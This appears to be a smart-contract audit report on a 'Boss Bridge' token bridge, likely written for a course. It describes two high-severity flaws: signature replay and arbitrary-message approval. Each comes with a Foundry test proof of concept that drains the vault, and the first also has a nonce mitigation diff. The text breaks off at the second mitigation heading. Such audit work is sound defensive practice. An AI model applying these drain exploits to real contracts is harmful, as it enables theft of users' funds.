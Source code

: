 # BOSS BRIDGE AUDIT REPORTS

# High

# [H-1] Signature replay attack at `L1BossBridge::sendToL1`

**Description:** Message signing do not contain single-use mechanism such `nonce` or `deadlines`. Hence, signatures can be used `n` number of times in order to execute `messages`.

**Impact:** Transfer signed by Signers can be executed by anyone effectively sending or withdrawing `n` number of times identical transaction as long as `L1BossBridge` owns or manages enough `L1Tokens` on `L1Vault`.

**Proof of Concept**

- Signatures are not one-usage and there's no mechanism from L1 to determine that user locked and unlocked tokens;

```javascript
   function testSignatureReplayAttacks() public {
        uint256 amount = 1 ether;

        uint256 vaultInitialBalance = 100e18;
        uint256 userInitialBalance = token.balanceOf(user);
        deal(address(token), address(vault), vaultInitialBalance);

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(user, amount),
            operator.key
        );

        while (token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(user, amount, v, r, s);
        }

        uint256 userEndingBalance = token.balanceOf(user);
        uint256 vaultEndingBalance = token.balanceOf(address(vault));

        assertEq(userEndingBalance, vaultInitialBalance + userInitialBalance);
        assertEq(vaultEndingBalance, 0);
    }
```

**Recommended Mitigation**

- usage of nonces to enable one-usage signatures
- usage of deadlines to allow signature validity within a time range.

```diff
    function _getTokenWithdrawalMessage(
        address recipient,
        uint256 amount
    ) private view returns (bytes memory) {
+       nonce += 1;
        return
            abi.encode(
+               nonce,
                address(token), // target
                0, // value
                abi.encodeCall(
                    IERC20.transferFrom,
                    (address(vault), recipient, amount)
                ) // data
            );
    }
```

# [H-2] Any user is able to call `Bossbridge -> Vault::ApproveTo` to take control over an amount of tokens, in order to drain vault balance.

**Description:** There's no regulation about what kind of messages a signer can sign, it's just a request so as to get a valid signature to redeem L2 tokens into L1, users can leverage it to drain funds.

**Impact:** the following vulnerabilty catches the attention of malicious users due to the facility oo draining all funds locked in a vault.

**Proof of concept:**

```javascript

    function testMaliciousMessageSignatures() public {
        uint256 vaultInitialBalance = 100e18;
        deal(address(token), address(vault), vaultInitialBalance);

        address attacker = makeAddr("attacker");

        bytes memory message = abi.encode(
            address(vault),
            0,
            abi.encodeCall(vault.approveTo, (attacker, vaultInitialBalance))
        );

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        tokenBridge.sendToL1(v, r, s, message);
        vm.prank(attacker);
        token.transferFrom(address(vault), attacker, vaultInitialBalance);

        uint256 attackerBalance = token.balanceOf(attacker);
        uint256 vaultEndingBalance = token.balanceOf(address(vault));

        assertEq(attackerBalance, vaultInitialBalance);
        assertEq(vaultEndingBalance, 0);
    }
```

**Recommened Mitigation:**
